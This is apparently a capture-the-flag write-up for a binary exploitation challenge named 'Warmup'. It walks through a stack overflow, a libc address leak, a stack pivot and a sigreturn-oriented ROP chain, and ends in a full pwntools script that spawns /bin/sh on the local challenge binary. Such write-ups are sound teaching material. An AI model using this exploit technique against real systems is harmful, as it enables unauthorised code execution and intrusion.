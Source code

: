 ## PWN - Warmup

This challenge was really fun. It might have been easier for some more experienced people but I am fairly new and had a lot of headache near the end.

This challenge started off fairly straight-forward since from first glance into the disassembly code you can see that it would be a stack pivot problem since it only gives you 16 bytes to work with.

``` c
undefined8 main(void)

{
  char local_48 [64];
  
  helper();
  printf("%p\n",puts);
  printf("name>> ");
  fgets(name,0x200,stdin);
  printf("alright>> ");
  fgets(local_48,0x58,stdin);
  puts("okey");
  return 0;
}
```

So first off I thought I would write a ret2libc ROP chain into the "name" variable and then use the `pop rsp ; ret` gadget I found in the binary for a stack pivot.

Now the only problem here is, there is only 512 allocated bytes into the `name` buffer, which will not be enough. But I didn't know that until a few hours later when I realized the reason `system` was breaking was because it was setting the stack pointer way above where it was intended. Below is the assembler code before and at the point it breaks. Here you can see the stack pointer being set a long way further up and the point where the exploit breaks since it is trying to write into an unwriteable area in memory.

```
   0x00007f4b0993f92e <+46>:    sub    rsp,0x388
   0x00007f4b0993f935 <+53>:    mov    rax,QWORD PTR fs:0x28
   0x00007f4b0993f93e <+62>:    mov    QWORD PTR [rsp+0x378],rax
   0x00007f4b0993f946 <+70>:    xor    eax,eax
=> 0x00007f4b0993f948 <+72>:    mov    DWORD PTR [rsp+0x18],0xffffffff
```

### Solution

So if there is not enough space to call `system` then I decided to create an SROP chain, using gadgets from libc. But first I must leak the libc PIE offset. Thankfully the challenge gives you the address of `puts` so the hard work is already done for you.

``` python
puts = io.recvuntil(b"\n")
puts = int (puts, 16)
offset = puts - libc.symbols["puts"]
```

I will also need to gather all the gadgets needed for this.

``` python
pop_rsp = p64 (0x40118e) # push rbp ; mov rbp, rsp ; pop rsp ; ret
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
syscall = rop.find_gadget(["syscall"])[0]
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
binsh = p64 (next(libc.search(b"/bin/sh")) + offset)
```

Now with this I can create the SROP chain.

``` python
frame = SigreturnFrame()
frame.rax = 59 # execve syscall
frame.rdi = next(libc.search(b"/bin/sh")) + offset
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall + offset

srop = p64(pop_rax + offset) + p64(0xf) + p64(syscall + offset) + bytes(frame)
```

And now all I must do is pivot the stack into `name` with the overflow.

``` python
target_buf_start = p64(0x404060)

overflow = b"A"*64 + target_buf_start + pop_rsp + target_buf_start
```

### Final solution

``` python
from pwn import *

io = process ("./warmup")
file = context.binary = ELF("./warmup")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")


# GADGETS

rop = ROP(libc)

puts = io.recvuntil(b"\n")
puts = int(puts, 16)
offset = puts - libc.symbols["puts"]

pop_rsp = p64(0x40118e) # push rbp ; mov rbp, rsp ; pop rsp ; ret
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
syscall = rop.find_gadget(["syscall"])[0]
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
binsh = p64 (next(libc.search(b"/bin/sh")) + offset)


# SROP

frame = SigreturnFrame()
frame.rax = 59
frame.rdi = next(libc.search(b"/bin/sh")) + offset
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall + offset

srop = p64(pop_rax + offset) + p64(0xf) + p64(syscall + offset) + bytes(frame)


# PIVOT SECTION

target_buf_start = p64(0x404060)

overflow = b"A"*64 + target_buf_start + pop_rsp + target_buf_start

io.sendline(srop)
io.sendline(overflow)

io.interactive()
```
